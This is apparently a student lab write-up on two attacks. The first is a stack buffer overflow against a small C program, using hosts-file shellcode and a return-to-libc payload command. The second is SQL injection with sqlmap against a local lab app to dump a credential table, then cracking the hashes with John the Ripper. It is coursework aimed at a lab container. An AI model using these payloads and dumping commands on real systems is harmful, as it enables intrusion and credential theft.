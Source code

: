 # Lab #1,22110044,Nguyen Nguyen Toan Khoa, INSE331280E_02FIE
# Task 1: Software buffer overflow attack
 Given a vulnerable C program 
```
#include <stdio.h>
#include <string.h>

int main(int argc, char* argv[])
{
	char buffer[16];
	strcpy(buffer,argv[1]);
	return 0;
}
```
and a shellcode in asm. This shellcode add a new entry in hosts file
```
global _start

section .text

_start:
    xor ecx, ecx
    mul ecx
    mov al, 0x5     
    push ecx
    push 0x7374736f     ;/etc///hosts
    push 0x682f2f2f
    push 0x6374652f
    mov ebx, esp
    mov cx, 0x401       ;permmisions
    int 0x80            ;syscall to open file

    xchg eax, ebx
    push 0x4
    pop eax
    jmp short _load_data    ;jmp-call-pop technique to load the map

_write:
    pop ecx
    push 20             ;length of the string, dont forget to modify if changes the map
    pop edx
    int 0x80            ;syscall to write in the file

    push 0x6
    pop eax
    int 0x80            ;syscall to close the file

    push 0x1
    pop eax
    int 0x80            ;syscall to exit

_load_data:
    call _write
    google db "127.1.1.1 google.com"
```
**Question 1**:
- Compile asm program and C program to executable code. 
- Conduct the attack so that when C executable code runs, shellcode will be triggered and a new entry is  added to the /etc/hosts file on your linux. 
  You are free to choose Code Injection or Environment Variable approach to do. 
- Write step-by-step explanation and clearly comment on instructions and screenshots that you have made to successfully accomplished the attack.
  
**Answer 1**: Must conform to below structure:
Description text (optional)

- For this lab, i will use a docker container to do. It will be mapped to my Seclabs directoy
![alt text](image-38.png)
- Then i will compile C asm program and C program to executable code
![alt text](image-37.png)
- I will use an older bash and turn off randomly given stack value.
`sudo sysctl -w kernel.randomize_va_space=0`
![alt text](image-39.png)
- The stack frame of main function
![alt text](image-32.png)
- The pwd of the copy_file: 
![alt text](image-40.png)
- Create a global environment varibale using `export my_path="/home/seed/seclabs/copy_file"`
- Then i will set root for user to write:
![alt text](image-50.png)
- I will find the address of system and exit and that string of varibale:
![alt text](image-41.png)
- Address value of system: 0xf7e50db0 will be inserted with format \xb0\x0d\xe5\xf7

- Address value of exit: 0xf7e449e0 will be inserted with format \xe0\x49\xe4\f7

- Address value of the string of env: 0xffffd94c will be inserted with format \x4c\xd9\xff\xff

- So the command will be:
`r $(python -c "print('a'*20 + '\xb0\x0d\xe5\xf7' + '\xe0\x49\xe4\xf7' +  '\x4c\xd9\xff\xff')")`
- Before i run this command:
![alt text](image-51.png)

- And the output when i run this command: 

  ![alt text](image-49.png)

---

# Task 2: Attack on the database of Vulnerable App from SQLi lab 
- Start docker container from SQLi. 
  ![alt text](image-55.png)
- Install sqlmap.
`git clone https://github.com/sqlmapproject/sqlmap.git`
and then cd sqlmap
![alt text](image-56.png)
- Write instructions and screenshots in the answer sections. Strictly follow the below structure for your writeup. 
  ![alt text](image-46.png)

**Question 1**: Use sqlmap to get information about all available databases
**Answer 1**:
- First after i installed sqlmap, then i use this command to get information about all available databases: 
  `python sqlmap.py -u "http://localhost:3128/unsafe_home.php?username=1&Password=1" --dbs`
- Result:
  ![alt text](image-52.png)
  ![alt text](image-53.png)
  ![alt text](image-54.png)


**Question 2**: Use sqlmap to get tables, users information
**Answer 2**:
- Following this step , i use command `python sqlmap.py -u "http://localhost:3128/unsafe_home.php?username=1&Password=1" -D sqllab_users --tables` to get table contain users information
  ![alt text](image-57.png)
  so i got a table name: **credential**
- So next step , i'm going to use this command: `python sqlmap.py -u "http://localhost:3128/unsafe_home.php?username=1&Password=1" -D sqllab_users -T credential --dump` to got all infformation about users in that table 
  ![alt text](image-58.png)
  Result: we got all informations of users.
**Question 3**: Make use of John the Ripper to disclose the password of all database users from the above exploit
**Answer 3**:
- Regard to this step , i go to install John the Ripper first in website 
 ![alt text](image-59.png)
- Then i extract files to D and setting path for it in many step:
  1. Windown + R and type sysdm.cpl
  2. Choose advanced and click on Environtment Variables
  3. Choose Path and click EDit 
   ![alt text](image-60.png)
  4. click new and copy path of folder contain file john.exe
   ![alt text](image-61.png)
   Then we fishned
- Next step i create wordlist.txt with content in rockyou2021.txt is all of weakspassword and store in 
  ![alt text](image-63.png)
  - Content
  ![alt text](image-62.png)
- After that i will prepare file hash.txt by copy this file `C:\Users\ToanKhoa\AppData\Local\Temp\sqlmap1sem5xjz21548\sqlmaphashes-mnuhm7hu.txt
` and store in désktop
- To continue with process , i go into the path: `D:\john-1.9.0-jumbo-1-win64\run>` and use this command `john --show --format=Raw-SHA1 "C:\Users\ToanKhoa\AppData\Local\Temp\sqlmap1sem5xjz21548\sqlmaphashes-mnuhm7hu.txt"`
![alt text](image-64.png)
- Result:
![alt text](image-65.png)
-> we finshed lab , 
Note: wordlist in this case can not find password because less weakspassword in wordlist.txt
Command: `john --wordlist="D:\john-1.9.0-jumbo-1-win64\run\wordlist.txt" --fork=4 --format=Raw-SHA1 "C:\Users\ToanKhoa\AppData\Local\Temp\sqlmap1sem5xjz21548\sqlmaphashes-mnuhm7hu.txt"`
![alt text](image-66.png)



